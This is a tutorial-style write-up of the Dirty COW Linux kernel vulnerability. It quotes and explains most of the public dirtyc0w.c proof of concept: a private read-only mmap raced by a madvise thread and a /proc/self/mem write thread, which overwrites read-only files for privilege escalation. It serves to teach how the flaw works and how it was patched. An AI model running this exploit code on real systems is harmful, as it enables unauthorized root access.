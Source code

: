 Introduction

The vulnerability “Dirty Cow” came from the “dirty” bit and copy-on-write(COW). Dirty Cow is a vulnerability that occurs in the kernel’s memory subsystem so as to race condition. A race condition vulnerability was found in the way the Linux kernel’s memory subsystem handled the copy-on-write breakage of private read-only memory mappings. It deliberately creates an error during copy-on-write by repeating the processes and it tricks the kernel into actually writing to the underlying file.

Basically it is possible to privilege escalation by writing in to /etc/passwd or sudo binary files.
Background

    Kernel subsystem: The Kernel subsystem is responsible for fairly distributing the CPU time among all the processes running on the system simultaneously.
    Race condition: Race conditions occur when two computer program processes, or threads, attempt to access the same resource at the same time and cause problems in the system. Race conditions are considered a common issue for multithreaded applications.
    Overhead: CPU overhead measures the amount of work a computer’s central processing unit can perform and the percentage of that capacity that’s used by individual computing tasks.
    Copy-on-write: Copy On Write (CoW) is a method in which multiple processes continue to share the same physical memory until a write actually occurs
    Dirty bit: A dirty bit is a binary value used by computer systems to track whether a specific unit of data, such as a cache line or a memory page, has been modified.

Analysis and Exploitation

https://github.com/dirtycow/dirtycow.github.io/blob/master/dirtyc0w.c

    Step1: open the root file in read only mode.

f=open(argv[1],O_RDONLY);
fstat(f,&st);
name=argv[1];

    Step2: mmap maps a file into memory. copy-on-write

Normally, Copy-on-write(COW) occurs when you try to write something to mapped read-only memory. Copy-on-write means, if you were to write to the memory segment, you write to the copy of the memory. Updates to the mapping are not visible to other processes mapping the same file, and are not carried through to the underlying file. It is unspecified whether changes made to the file after the mmap() call are visible in the mapped region.

map=mmap(NULL,st.st_size,PROT_READ,MAP_PRIVATE,f,0); 
printf("mmap %zx\n\n",(uintptr_t) map);

You have to use MAP_PRIVATE for copy-on-write mapping. PROT_READ shows the mapped file is only readable. Create a private copy-on-write mapping.

    Step3: Start two threads to create copy-on-write race conditions.

pthread_create(&pth1,NULL,madviseThread,argv[1]);
pthread_create(&pth2,NULL,procselfmemThread,argv[2]);

Both threads will run in parallel. DirtyCow is a race condition vulnerability. It means certain events have to occur in a specific order, that are unlikely to happen under normal conditions.

    Step 3.1: Madvise Thread

First thread uses the syscall madvise(). The madvise system call is used to give advice or directions to the kernel about the address range

void *madviseThread(void *arg)
{
 char *str;
 str=(char*)arg;
 int i,c=0;
 for(i=0;i<100000000;i++)
 {
/*
You have to race madvise(MADV_DONTNEED) :: https://access.redhat.com/security/vulnerabilities/2706661
> This is achieved by racing the madvise(MADV_DONTNEED) system call
> while having the page of the executable mmapped in memory.
*/
 c+=madvise(map,100,MADV_DONTNEED);
 }
 printf("madvise %d\n\n",c);
}

First 100 byte is MADV_DONTNEED which means that it does not expect access in the near future. Subsequent accesses of pages in the range will succeed, but will result in either repopulating the memory contents from the up-to-date contents of the underlying mapped file.

    Step 3.2: write to proc/self/mem thread (R/O to R/W by proc/self/mem)

void *procselfmemThread(void *arg)
{
 char *str;
 str=(char*)arg;
/*
You have to write to /proc/self/mem :: https://bugzilla.redhat.com/show_bug.cgi?id=1384344#c16
> The in the wild exploit we are aware of doesn't work on Red Hat
> Enterprise Linux 5 and 6 out of the box because on one side of
> the race it writes to /proc/self/mem, but /proc/self/mem is not
> writable on Red Hat Enterprise Linux 5 and 6.
*/
 int f=open("/proc/self/mem",O_RDWR);
 int i,c=0;
 for(i=0;i<100000000;i++) {
/*
You have to reset the file pointer to the memory position.
*/
 lseek(f,(uintptr_t) map,SEEK_SET);
 c+=write(f,str,strlen(str));
 }
 printf("procselfmem %d\n\n", c);
}

First, mmap R/O file to memory by MAP_PRIVATE -> R/O map created. And next, open /proc/self/mem file by open() as if it is a file -> R/W file opened

If you access the virtual address offset from R/W file (proc/self/mem), you can request write operation to R/O disk map. Of course, when R/W is requested like that, Copy on Write occurs and writing is done to the private copy rather than to the actual disk, so there is no direct security threat ‘as of yet’.

/proc : the information about the processes

/proc/self : the current process

/proc/self/mem : the memory (r/w permission)

Second, thread proc/self/mem thread opens the file /proc/self/mem and writes to this file in a loop. This is a thread that repeatedly sends write requests for the R/O map to the kernel through /proc/self/mem.

At the point when Copy on Write occurs, the kernel determines that memory write permission is secured and seeks the page. At this time, the private copy page is tossed by madvise(DONT_NEED). If you write to the copied mapped memory, the memory page gets flagged as dirty. But you do not care that the dirty page has not been written.

So this madvise call causes the throwing away of this memory. This means it is not any of the memory caches anymore. The page is searched again, it will create a edgecase that usually does not occur since it determined that write permission has been secured earlier, tricking the kernel into actually writing to the “actual” map page and write permission is not checked.

If a race condition occurs in this order, you can write whatever you want to the read-only file because every time when we try to write, the copy of the memory might have been tossed so we have to reload a new copy from memory so we can write to it.

The patch added a function that checks if the copy-on-write is complete yet, and only then allows writing to it.

https://www.youtube.com/watch?v=kEsshExn7aE&ab_channel=LiveOverflow
